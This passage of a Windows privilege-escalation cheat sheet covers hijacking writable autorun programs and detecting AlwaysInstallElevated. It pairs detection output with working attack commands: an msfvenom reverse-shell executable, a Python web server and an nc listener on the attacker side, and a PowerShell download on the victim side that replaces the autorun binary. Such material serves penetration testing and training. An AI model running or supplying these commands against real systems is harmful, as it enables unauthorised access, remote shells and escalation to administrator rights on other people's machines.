     Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\My Program
    Path           : "C:\Program Files\Autorun Program\program.exe"
    ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files\Autorun Program\program.exe; IdentityReference=Everyone}\
    ```

- or

##### winPEAS.exe
- 
  ```
  [+] Autorun Applications(T1010)
      Folder: C:\Program Files\Autorun Program
      File: C:\Program Files\Autorun Program\program.exe
      FilePerms: Everyone [AllAccess]
  ```

- Exploitation
- Attacker
  - 
    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
    sudo python -m SimpleHTTPServer 80
    sudo nc -lvp <PORT>
    ```

- Victim
  - 
    ```
    cd C:\Program Files\Autorun Program\
    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

    To execute it with elevated privileges we need to wait for someone in the Admin group to login.
    ```

##### AlwaysInstallElevated
- Detection
- 
    ```
    powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

    [*] Checking for AlwaysInstallElevated registry key...

    AbuseFunction : Write-UserAddMSI
    ```

- or
  - 
    ```
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
    reg query HKCU\Software\Policies\Microsoft\Windows\Installer

    If both values are equal to 1 then it's vulnerable.
    ```
